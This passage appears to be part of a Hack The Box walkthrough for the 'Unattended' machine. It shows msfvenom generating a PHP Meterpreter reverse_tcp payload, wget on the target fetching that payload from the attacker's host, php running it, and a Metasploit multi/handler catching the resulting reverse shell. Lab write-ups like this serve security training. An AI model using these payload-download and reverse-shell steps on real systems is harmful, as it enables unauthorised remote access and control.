 ![](/images/hackthebox/unattended/16.png)
<br> But I didn't like 2 things about this shell. First thing, it wasn't a tty shell. Second thing, with only 2 ports available It was annoying because I usually need more shells. So I created a `php` `meterpreter` payload because with `meterpreter` I can spawn as many shells as I want and they can be tty shells.
```
root@kali:~/Desktop/HTB/boxes/unattended# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=80 > shell.php                                                                                          
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1110 bytes
```

```
$ cd /tmp
$ wget http://10.10.xx.xx/shell.php
--2019-08-23 13:09:38--  http://10.10.xx.xx/shell.php
Connecting to 10.10.xx.xx:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1110 (1.1K) [application/octet-stream]
Saving to: 'shell.php'

     0K .                                                     100% 92.4M=0s

2019-08-23 13:09:39 (92.4 MB/s) - 'shell.php' saved [1110/1110]

$ php ./shell.php
```

```
msf5 > use multi/handler
set msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.xx.xx
LHOST => 10.10.xx.xx
msf5 exploit(multi/handler) > set LPORT 80
LPORT => 80
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.xx.xx:80
[*] Sending stage (38247 bytes) to 10.10.10.126
[*] Meterpreter session 1 opened (10.10.xx.xx:80 -> 10.10.10.126:47866) at 2019-08-23 19:09:59 +0200

meterpreter >
```